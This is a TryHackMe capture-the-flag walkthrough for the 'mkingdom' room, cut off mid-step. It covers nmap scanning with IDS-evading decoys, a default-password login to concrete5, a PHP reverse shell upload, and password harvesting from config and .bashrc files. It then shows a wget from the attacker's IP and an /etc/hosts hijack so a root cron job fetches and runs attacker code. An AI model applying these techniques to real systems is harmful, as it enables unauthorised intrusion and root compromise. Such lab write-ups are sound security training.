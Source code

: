 ![intro](https://github.com/user-attachments/assets/352398d3-7036-426f-8735-18b607e1f22e)

# tryhackme-CTF-writeup-for-mkingdom

This is a walkthrough for the tryhackme CTF mkingdom. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a webserver on port 85:

![nmap](https://github.com/user-attachments/assets/6e9260bd-2c0f-4f72-ae61-0feece3a008a)

Visiting this webserver we see this image of Bowser:

![bowser](https://github.com/user-attachments/assets/5027b68b-1510-432f-8e82-b2b9824a84b5)

Using exiftool on the image reveals that the creater is b0ws53r. 

![exif](https://github.com/user-attachments/assets/6a372813-6216-499a-ad9f-8851eb1d1d98)

Let's run a gobuster and nikto scan on the target:

![gobuster + nikto](https://github.com/user-attachments/assets/52b6696d-72fa-4069-a95e-885787ab9668)

The scans reveal a directory call /app. At first this brings us to a button called jump, and after clicking it a few times, it takes us to toad's expensive website. Let's examine the source code:

![source](https://github.com/user-attachments/assets/5ad9209e-80cc-43d8-9c73-90a87896a060)

The code reveals that the site is using concrete5 8.5.2. I did a little research on exploited this and came across this article on hackerone.com:

![concrete exploit](https://github.com/user-attachments/assets/5d16a8c7-a37d-4bd8-89a7-c5f03afb8414)

I tried a some typical default username and password combos and admin:password worked for the login. Now, we're going to follow the steps described in the hackerone article to change file properties to allow php, and upload a php reverse shell. 
And we now have a reverse shell as www-data!

![www-data](https://github.com/user-attachments/assets/d8d732b3-4ee2-4e56-82e9-45ce03d92f6f)

# Privilege Escalation
I then searched around the home directory but permission is denied for the directories. So, I headed back to www-data's home, and started looking around for useful files. We saw from the source code earlier that the web server is built off of the /app/castle/application. I then found the directory config. It's always a good idea to check the config directory to see if there is senitive info. And the file database.php contains a password for toad.

![su toad](https://github.com/user-attachments/assets/b40596f7-8cfd-43f0-8a4e-dbe45cf34f3f)

I ran sudo -l as toad but toad can't run sudo on this machine. Let's head to /home/toad and see what we can find. smb.txt contains a message from mario:

![smb txt](https://github.com/user-attachments/assets/7d4d89b6-9751-4d8e-8e88-6182f2c6e284)

It's always a good idea to check files such as .bash_history and .bashrc to look for senitive info. I checked out .bashrc and noticed a PWD_token that appears to be base64 encryped.

![bashrc](https://github.com/user-attachments/assets/8515dba8-aebf-456d-83b2-680b1b3952ec)

I was then used this password to su mario:

![su mario](https://github.com/user-attachments/assets/ede5ede8-50dd-48e7-98ca-234218844851)

Now, let's head to /tmp, and run linpeas. I ran a python server from kali:
```bash
python3 -m http.server
```
And wget from mario:
```bash
wget http://<your IP>:8000/linpeas.sh
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh >> output
```

I didn't many concrete things that we could use, other some files that we have access to, like the /etc/hosts file. 

# Exploitation
Let's use pspy to see if we can find processes to exploit:

![pspy64](https://github.com/user-attachments/assets/db94d3b3-e0b9-4ccb-ad6d-3d1a76525d1d)

This process looks like something we can exploit:

![pspy counter sh](https://github.com/user-attachments/assets/824d5ffd-a36a-494e-b15f-d8b8d9ca57d7)

This command starts by downloading the script (counter.sh) from a (mkindom.thm:85).
The downloaded script is then passed to bash for execution.
The output produced by the script execution is appended to the log file located at /var/log/up.log.
This type of command, which downloads and executes a script from the internet without verification, can be very dangerous. As we saw earlier, we have access to /etc/hosts, se we can pontenially execute malicious code. 

First, let's check out that /etc/hosts file:

![etc_hosts](https://github.com/user-attachments/assets/5fb19660-513b-40ae-8711-197105da5953)

The next file to check out is the script in the process command counter.sh:

![counter sh_up log](https://github.com/user-attachments/assets/e9c5459d-3986-4fa8-9a6c-e64e733fd637)

So we don't have write access to counter.sh or up.log. But what we can do, is modify the /etc/hosts file to change the IP of mkingdom.thm:85 to point to our IP. This way, we can make our own counter.sh script and trick the target into executing, as root. So, once the target executes the script, it should give us a reverse shell as root.

The first step will be to modify the /etc/hosts file to point to our IP. I found the easiest way to do this is copy the contents of the /etc/host file onto kali, because using nano and editing the file on the target was finicky and hard to see what I was doing, change the mkingdom IP to ours, and copy the contents back into the targets /etc/hosts file.
The modified /etc/hosts file should look like this except with the mkingdom IP pointing to the IP of your attack box:

![modified _etc_hosts](https://github.com/user-attachments/assets/2e6104b5-5c7b-4551-8bd0-f86e186fc22c)

Next, on our attack box, create a script replicating counter.sh complete with the file path:

